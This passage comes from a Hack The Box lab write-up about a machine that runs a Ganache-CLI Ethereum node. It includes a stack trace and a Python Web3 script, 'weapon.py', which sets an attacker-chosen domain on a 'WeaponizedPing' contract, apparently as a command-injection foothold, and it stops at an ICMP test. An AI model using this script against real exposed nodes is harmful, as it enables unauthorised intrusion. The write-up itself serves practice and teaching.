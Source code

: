 ```
    at DelayedBlockFilter.handleRequest (/usr/local/lib/node_modules/ganache-cli/node_modules/ganache-core/lib/subproviders/delayedblockfilter.js:31:3)
    at next (/usr/local/lib/node_modules/ganache-cli/node_modules/ganache-core/node_modules/web3-provider-engine/index.js:116:18)
    at RequestFunnel.handleRequest (/usr/local/lib/node_modules/ganache-cli/node_modules/ganache-core/lib/subproviders/requestfunnel.js:32:12)
    at next (/usr/local/lib/node_modules/ganache-cli/node_modules/ganache-core/node_modules/web3-provider-engine/index.js:116:18)
    at Web3ProviderEngine._handleAsync (/usr/local/lib/node_modules/ganache-cli/node_modules/ganache-core/node_modules/web3-provider-engine/index.js:103:3)
    at Timeout._onTimeout (/usr/local/lib/node_modules/ganache-cli/node_modules/ganache-core/node_modules/web3-provider-engine/index.js:87:12)
    at ontimeout (timers.js:498:11)
    at tryOnTimeout (timers.js:323:5)
    at Timer.listOnTimeout (timers.js:290:5)
```

According to its GitHub [repository](https://github.com/trufflesuite/ganache),

> Ganache is your personal blockchain for Ethereum development.

After some reading and research, I got to know that `ganache-cli`, by default, automatically creates 10 accounts associated with 10 private keys. Each account has 100 ethers for testing purpose. It also exposes the [JSON RPC API](https://github.com/ethereum/wiki/wiki/JSON-RPC).

### Gaining a Foothold

We need something to interact with the WeaponizedPing contract deployed in Ganache-CLI.

Enter [Web3.py](https://github.com/ethereum/web3.py).

Towards that end, I wrote the following Python script.

<div class="filename"><span>weapon.py</span></div>

~~~~python
#!/usr/bin/env python3

from web3 import Web3, HTTPProvider
import json, sys

contract_data = json.loads(open('WeaponizedPing.json').read())
contract_addr = open('address.txt').read().rstrip()

w3 = Web3(HTTPProvider('http://10.10.10.142:9810'))
account = w3.eth.coinbase

weapon = w3.eth.contract(address=contract_addr, abi=contract_data['abi'])
weapon.functions.setDomain(sys.argv[1]).transact({"from":account,"to":contract_addr})
weapon.functions.getDomain().call()
~~~~

To test it out, I set up `tcpdump` to listen on `tun0` for any ICMP traffic. In a separate terminal, run `./weapon.py <my_htb_ip>`.


[1]: https://www.hackthebox.eu/home/machines/profile/193
[2]: https://www.hackthebox.eu/home/users/profile/41600
[3]: https://www.hackthebox.eu/home/users/profile/37317
[4]: https://www.hackthebox.eu/